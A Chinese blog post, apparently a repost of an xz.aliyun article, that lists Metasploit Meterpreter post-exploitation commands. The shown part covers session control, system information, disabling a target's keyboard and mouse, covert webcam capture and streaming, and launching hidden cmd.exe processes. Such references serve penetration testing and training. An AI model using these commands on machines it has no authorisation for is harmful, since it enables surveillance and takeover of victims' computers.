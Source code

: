 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/qq_38228830/article/details/85927942)

本文转载来源：[https://xz.aliyun.com/t/2536](https://xz.aliyun.com/t/2536)

Metasploit 中的 Meterpreter 模块在后渗透阶段具有强大的攻击力，本文主要整理了 meterpreter 的常用命令、脚本及使用方式。包含信息收集、提权、注册表操作、令牌操纵、哈希利用、后门植入等。

### 0x01. 系统命令

1）基本系统命令

```
sessions    #sessions –h 查看帮助
sessions -i <ID值>  #进入会话   -k  杀死会话
background  #将当前会话放置后台
run  #执行已有的模块，输入run后按两下tab，列出已有的脚本
info #查看已有模块信息
getuid # 查看权限 
getpid # 获取当前进程的pid
sysinfo # 查看目标机系统信息
ps # 查看当前活跃进程    kill <PID值> 杀死进程
idletime #查看目标机闲置时间
reboot / shutdown   #重启/关机
shell #进入目标机cmd shell
```

2）uictl 开关键盘 / 鼠标

```
uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
uictl disable mouse  #禁用鼠标
uictl disable keyboard  #禁用键盘
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8d78731c-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8d78731c-998c-1.png)

3）webcam 摄像头命令

```
webcam_list  #查看摄像头
webcam_snap   #通过摄像头拍照
webcam_stream   #通过摄像头开启视频
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8d93ac72-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8d93ac72-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8da675dc-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8da675dc-998c-1.png)

4）execute 执行文件

```
execute #在目标机中执行文件
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```
